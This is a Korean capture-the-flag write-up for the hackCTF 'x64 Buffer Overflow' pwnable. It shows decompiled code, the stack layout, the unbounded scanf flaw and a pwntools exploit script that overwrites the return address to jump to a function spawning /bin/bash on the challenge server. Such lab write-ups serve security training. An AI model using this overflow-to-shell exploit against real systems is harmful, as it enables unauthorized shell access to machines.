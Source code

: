 ```yaml
---
layout: post
title:  "[hackCTF]x64 Buffer Overflow"
date:   2020-02-18
---
```


hackCTF pwnable 다섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)


## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-110h]
  int v5; // [rsp+11Ch] [rbp-4h]

  _isoc99_scanf("%s", &s, envp); // stdin에서 문자열 형식으로 입력 받아 s에 저장
  v5 = strlen(&s); // s의 길이를 v5에 저장
  printf("Hello %s\n", &s, argv);
  return 0;
}
```
## ida - callMeMaybe
```c
int callMeMaybe()
{
  char* path; // [rsp+0h] [rbp-20h]
  const char* v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  path = "/bin/bash";
  v2 = "-p";
  v3 = 0LL;
  return execve("/bin/bash", &path, 0LL); // 쉘을 띄울 수 있다!
}
```
<br>

정리해보자.<br><br>
<hr>

| ret |           |
|:---:|:---------:|
| sfp |    rbp    |
| ... |           |
|  s  | rbp-0x110 |

***
<br>
callMeMaybe 함수를 실행시키면 쉘을 띄울 수 있다. 이전 문제와 동일한 방식으로 scanf를 통해 문제를 해결하자.<br><br>
목표 : ret을 callMeMaybe 함수의 주소로 덮기<br>
취약점 : scanf("%s", &s, envp)<br><br><br>
+) callMeMaybe 함수의 주소는 다음과 같다.

![0501](https://drive.google.com/uc?id=1LnLNJrmt7KXM1S5HHWFkw0vQywbEDzOd)

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)

payload = "\x90"*0x118+p64(0x400606)

p.sendline(payload)

p.interactive()
```

## 결과
![0502](https://drive.google.com/uc?id=1rK_l0M2NmPspC1udiy0B72-BrBogAAN8)
